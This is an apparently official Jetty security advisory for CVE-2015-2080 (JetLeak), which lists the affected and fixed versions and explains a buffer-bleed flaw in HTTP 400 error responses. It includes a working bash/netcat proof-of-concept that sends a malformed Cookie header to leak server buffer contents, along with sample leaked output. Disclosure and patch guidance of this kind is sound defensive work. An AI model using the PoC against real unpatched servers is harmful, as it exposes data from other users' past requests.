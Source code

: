 HttpParser Error Buffer Bleed Vulnerability
===========================================

Published Date:
---------------

2015, Feb 24

CVE:
----

CVE-2015-2080

Discovered and Reported By:
---------------------------

[Gotham Digital Science](http://www.gdssecurity.com/) and Stephen Komal.

[JetLeak Vulnerability Remote Leakage of Shared Buffers in Jetty / blogs.gdsecurity.com](http://blog.gdssecurity.com/labs/2015/2/25/jetleak-vulnerability-remote-leakage-of-shared-buffers-in-je.html)


Affected Versions of Jetty:
---------------------------

  * 9.2.3.v20140905
  * 9.2.4.v20141103
  * 9.2.5.v20141112
  * 9.2.6.v20141205
  * 9.2.7.v20150116
  * 9.2.8.v20150217

Version of Jetty Containing Fix:
--------------------------------

  * 9.2.9.v20150224

Statement:
----------

Jetty versions 9.2.3.v20140905 through 9.2.8.v20150217 have a ByteBuffer reuse and information bleed vulnerability surrounding bad HTTP request header parsing error responses.

History:
--------

Back in Jetty 9.2.3, a feature requesting more detailed logging messages surrounding problems parsing bad HTTP request headers ( https://bugs.eclipse.org/443049 ) was implemented.

The feature request was to include better debug information in the Jetty logs (at WARN level) to help diagnose and resolve HTTP parsing errors.

However, the implementation incorrectly exposes this debug information back on the HTTP 400 response reason phrase, potentially exposing parts of server side buffers used from prior request processing on the same server.

The following bash shell script demonstrates the problem using netcat on linux against the Jetty Distribution's demo-base.

```
#!/bin/bash

RESOURCEPATH="/test/dump/info"
BAD=$'\a'

function normalRequest {
echo "-- Normal Request --"

nc localhost 8080 << NORMREQ
POST $RESOURCEPATH HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded;charset=utf-8
Connection: close
Content-Length: 16

Username=Joakim
NORMREQ
}

function badCookie {
echo "-- Bad Cookie --"

nc localhost 8080 << BADCOOKIE
GET $RESOURCEPATH HTTP/1.1
Host: localhost
Coo${BAD}kie: ${BAD}

BADCOOKIE
}

normalRequest
echo ""
echo ""
badCookie
```

The results are often seen in the HTTP response such as ...

```
HTTP/1.1 400 Illegal character 0x7 in state=HEADER_IN_NAME in 'GET /dummy/ HTTP/... localhost\nCoo\x07<<<kie: \x07\n\n>>>e: application/x-...\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00'
Content-Length: 0
Connection: close
Server: Jetty(9.2.8.v20150217)
```

What you are seeing is a http response phrase that includes raw ByteBuffer details on what happened during the parsing failure.

The parts of the output are in the general form
`{what_has_been_parsed}<<<{left_to_parse}>>>{old_buffer_seen_past_limit}`

The part at `{old_buffer_seen_past_limit}` is where this exposure of past buffers comes from.  It is this information where an exploit could be made to present random prior buffers from the server buffer pool.  This information can contain anything seen in a past handled request.

We have this problem already patched in Jetty 9.2.9.v20150224, and the same test as above results in ...

```
HTTP/1.1 400 Illegal character 0x7
Content-Length: 0
Connection: close
Server: Jetty(9.2.9.v20150224)
```

Everyone is strongly encouraged to upgrade to Jetty 9.2.9.v20150224 immediately.



